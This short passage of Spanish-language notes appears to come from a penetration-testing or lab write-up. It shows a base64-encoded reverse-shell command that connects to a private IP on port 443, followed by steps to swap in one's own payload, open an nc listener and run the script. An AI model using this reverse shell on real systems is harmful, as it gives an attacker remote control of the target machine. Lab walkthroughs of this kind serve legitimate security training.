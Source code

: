         `c2ggLWkgPiYgL2Rldi90Y3AvMTAuMC4zLjQvNDQzIDA+JjE=`
        
- Sustituiríamos el código en base64 por el nuestro
    
    ![image.png](./imagenes/image%20208.png)
    
- Nos ponemos a la escucha por el puerto 443
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%20209.png)
    
- Ejecutamos el Script
    